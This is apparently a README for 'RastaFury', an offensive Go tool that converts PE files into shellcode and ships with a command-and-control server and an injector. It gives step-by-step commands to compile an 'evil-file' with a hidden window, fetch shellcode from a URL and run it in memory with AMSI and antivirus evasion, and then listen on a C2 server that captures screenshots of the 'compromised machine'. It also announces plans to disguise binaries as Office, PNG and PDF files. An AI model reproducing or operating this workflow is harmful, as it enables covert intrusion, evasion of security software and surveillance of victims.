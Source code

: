 # RastaFury

a tool for create ShellCodes from PE, based on go-donut([Binject](https://github.com/Binject/go-donut)); updated, improved and with new functionalities.
This tool works on Windows, Linux and MacOs, only need to change you compilation technique.

##Treefile
```powershell
C:.
│   .gitignore
│   go.mod
│   go.sum
│   LICENSE
│   main.go
│   README.md
│
│
├───c2server
│       helpers.go
│       router.go
│       server.go
│
├───cmd
│       c2server.go
│       injector.go
│       root.go
│       ShellCodeGenerator.go
│
└───donut
        donut.go
        donut_crypt.go
        donut_crypto_test.go
        loader_exe_x64.go
        loader_exe_x86.go
        types.go
        utils.go
```

##USAGE
**Note:** *this tool is intended to work in conjunction with the [ShellCodeInjector](https://github.com/RachidMoysePolania/ShellCodeInjector) library, in which you can find the default payload to be used with the *C2SERVER* command, which will be loaded into memory and executed by syscalls using kernel32.dll from windows (applying *AMSI* and *AV* evasion techniques).*
1. need to compile the payload (using default payload would be in this way): `go build -ldflags -H=windowsgui main.go` **Note:** *before compile the evil-file you need update the url and port to match with your c2server url and port.*
2. to generate a shellcode from a PE file use the following command: `shellcodegenerator -i <evil-file-path> -o <output-file-name>(by default is defaultc2client.bin)` this command is intended to use the default payload provided by ShellCodeInjector library at [here](https://github.com/RachidMoysePolania/ShellCodeInjector/blob/main/payload/main.go)
3. use the injector command, only need to provide the url (the complete url of where the shellcode to download is located): `injector -u "http://127.0.0.1:8000/defaultc2client.bin` and at the same time a new window must be opened, in order to listen to the c2 server.
4. listening to the c2server: `c2server -p <port-to-listen>(by default 8080)`

**Note:** *where the compiled shellcodegenerator binary is stored, screenshots of the compromised machine will be saved every interaction.*

##Example video
![PocVideo](/media/PoC.mkv)

**Note:** *The next features are camuflage for our compiled binaries (word, excel, png, pdf, etc), graphic version and process injection* 
